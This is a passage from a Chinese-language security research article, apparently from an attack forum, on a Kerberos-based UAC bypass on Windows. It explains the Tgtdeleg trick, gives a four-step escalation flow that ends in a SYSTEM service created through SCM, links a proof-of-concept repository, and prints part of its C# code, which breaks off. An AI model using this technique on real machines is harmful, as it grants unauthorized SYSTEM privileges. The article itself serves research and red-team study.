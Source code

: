 然后，它创建了一个服务，并以 SYSTEM 权限运行该服务。如下图所示，成功获取到 SYSTEM 权限。

![image-20230727163311022](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-2d2432336502df2b3266a9e59ec247cc785243c7.png)

### Tgtdeleg Trick

另一种方法是我们自己生成服务票据。但需要注意一点，由于没有且无法访问当前用户的凭据，我们无法手动生成 TGT。不过，Benjamin Delpy（[@gentilkiwi](https://github.com/gentilkiwi)）在其 [Kekeo](https://github.com/gentilkiwi/kekeo/blob/4fbb44ec54ff093ae0fbe4471de19681a8e71a86/kekeo/modules/kuhl_m_tgt.c#L189-L327) 中加入了一个技巧（tgtdeleg），允许你滥用无约束委派来获取一个带有会话密钥的本地 TGT。

&lt;img src="C:\\Users\\whoami\\AppData\\Roaming\\Typora\\typora-user-images\\image-20230728091637233.png" alt="image-20230728091637233" style="zoom:67%;" /&gt;

Tgtdeleg 通过滥用Kerberos GSS-API，以获取当前用户的可用 TGT，而无需在主机上获取提升的权限。该方法使用 `AcquireCredentialsHandle` 函数获取当前用户的 Kerberos 安全凭据句柄，并使用 `ISC_REQ_DELEGATE` 标志和目标 SPN 为 `HOST/DC.domain.com` 调用 `InitializeSecurityContext` 函数，以准备发送给域控制器的伪委派上下文。这导致 GSS-API 输出中的 KRB\_AP-REQ 包含了在 Authenticator Checksum 中的 KRB\_CRED。然后，从本地 Kerberos 缓存中提取服务票据的会话密钥，并用它来解密 Authenticator 中的KRB\_CRED，从而获得一个可用的 TGT。Rubeus 工具集种也融合了该技巧，具体细节请参考 “[*Rubeus – Now With More Kekeo*](https://blog.harmj0y.net/redteaming/rubeus-now-with-more-kekeo/#tgtdeleg)”。

有了这个 TGT，我们就可以生成自己的服务票据了，可行的操作流程如下所示：

1. 使用 Tgtdeleg 技巧获取用户的 TGT。
2. 使用 TGT 向 KDC 请求为本地计算机生成新的服务票据。添加一个 `KERB-AD-RESTRICTION-ENTRY`，但填入虚假的 MachineID。
3. 将服务票据提交到缓存中。
4. 访问 SCM 创建系统服务以绕过 UAC。

Implemented By C
----------------

为了实现上述流程，我基于 Rubeus 创建了自己的 POC：<https://github.com/wh0amitz/KRBUACBypass>

### Main Class

这里我写了两个功能模块，一个是 asktgs，用于申请服务票据，得到票据后通过 krbscm 功能访问 SCM 创建系统服务，如下所示。

```c#
private static void Run(string[] args, Options options)
{
    string method = args[0];
    string command = options.Command;
    Verbose = options.Verbose;

    // Get domain controller name
    string domainController = Networking.GetDCName();
    // Get the dns host name of the current host and construct the SPN of the HOST service
    string service = $"HOST/{Dns.GetHostName()}";
    // Default kerberos etype
    Interop.KERB_ETYPE requestEType = Interop.KERB_ETYPE.subkey_keymaterial;
    string outfile = "";
    bool ptt = true;

    if(method == "asktgs")
    {
        // Execute the tgtdeleg trick
        byte[] blah = LSA.RequestFakeDelegTicket();
        KRB_CRED kirbi = new KRB_CRED(blah);
        Ask.TGS(kirbi, service, requestEType, outfile, ptt, domainController);
    }

    if (method == "krbscm")
    {
        // extract out the tickets (w/ full data) with the specified targeting options
        List<LSA.SESSION_CRED> sessionCreds = LSA.EnumerateTickets(false, new LUID(), "HOST", null, null, true);

        if(sessionCreds[0].Tickets.Count > 0)
```